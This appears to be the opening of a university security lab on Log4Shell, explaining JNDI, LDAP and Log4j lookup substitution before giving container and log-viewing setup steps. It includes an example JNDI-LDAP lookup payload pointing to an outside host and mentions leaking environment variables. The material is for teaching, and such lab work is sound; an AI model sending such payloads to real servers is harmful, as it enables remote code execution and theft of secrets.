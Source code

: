 Java Naming and Directory Interface (JNDI) creates a way for Java Objects to be looked up at runtime. There are many directory interfaces that provide different ways to lookup files. A common example is a database connection pool so that applications deployed on a server can get the connections they need by only needing to know the JNDI name instead of having to have the connection details. You can use Java Serialization to store the byte array representation of an object to store objects in a directory/naming service. JNDI uses Naming References if the object is too large such as “ldap://server/location”

Where this comes into play in this exploit, is the Lightweight Directory Access Protocol (LDAP) which is not specific to Java. LDAP provides the communication language that is required to receive and send information from directory services. It can be used for authentication like sending usernames/passwords or retrieving object data through a url from another server.

To tie this into Log4J, Log4J performs&nbsp;<a href="https://logging.apache.org/log4j/2.x/manual/lookups.html">lookups</a>&nbsp;which allow for&nbsp;<a href="https://logging.apache.org/log4j/2.x/log4j-core/apidocs/org/apache/logging/log4j/core/lookup/StrSubstitutor.html">string substitution</a>&nbsp;of certain strings. These are in the form of&nbsp;<strong>${prefix:name}</strong>&nbsp;i.e. a common one would be&nbsp;<strong>${java:runtime}</strong>&nbsp;and running this would produce “Running Java version 1.8.0_20”. Here is where the JNDI and LDAP come into play.&nbsp;<strong>${jndi:&lt;lookup&gt;}</strong>&nbsp;is a valid lookup expression recognized by the lookup by Log4J.

A malicious user could specify a valid lookup protocol such as LDAP, RMI, or DNS in the JNDI lookup and direct the Log4J lookup to their malicious server/file. An example could be&nbsp;<strong>${jndi:ldap://cs6035.com/exploitfile}</strong>&nbsp;which would load data from that domain if a connection can be established. Attackers can even get environment variables if RCE is disabled and learn about the server/server environment. Often, HTTP requests log header information, query parameters, path parameters, and more which allow a vector for this attack to take place. With this background, now we are ready to start this lab.

Here is a visual of the Log4j exploit and how it is accomplished (you can zoom in if this is too small via ctrl + scroll):

Setup

To get setup for the flags, follow the steps carefully below, and be sure you are running each in a separate terminal window as noted.

You will need switch users to login to log4j user via:

Credentials can be found in Canvas on the Log4Shell Assignment page

In the home directory of log4j user, start the container with the start script:

./StartContainer.sh

Open a new terminal window and go to “Desktop/log4shell/logs”:

cd Desktop/log4shell/logs

Run the following command to view the logs:

tail -f cs6035.log

OR to view System.out.println messages:

tail -f console.log

You should now see the tail of the log file from the application running.
